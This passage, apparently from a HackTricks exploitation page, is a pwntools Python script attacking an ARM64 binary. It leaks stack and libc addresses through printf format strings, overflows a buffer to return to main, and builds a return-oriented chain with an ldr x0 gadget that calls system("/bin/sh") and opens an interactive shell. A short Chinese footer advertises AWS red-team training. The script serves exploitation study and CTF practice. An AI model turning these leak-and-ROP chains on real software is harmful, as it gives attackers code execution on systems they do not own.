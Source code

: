 ```python

# Get main address
main_address = leak_printf(b"%21$p", True)
print(f"Bin address: {hex(main_address)}")

# Ret2main
stack_offset = 108
main_call_printf_offset = 0x860 #Offset inside main to call printfleak
print("Going back to " + str(hex(main_address + main_call_printf_offset)))
ret2main = b"A"*stack_offset + p64(main_address + main_call_printf_offset)
expl_bof(ret2main)

# libc
libc_base_address = leak_printf(b"%25$p") - 0x26dc4
libc.address = libc_base_address
print(f"Libc address: {hex(libc_base_address)}")
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# ret2system
ldr_x0_ret = p64(libc.address + 0x49c40) # ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x78 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
```
<details><summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary></details>
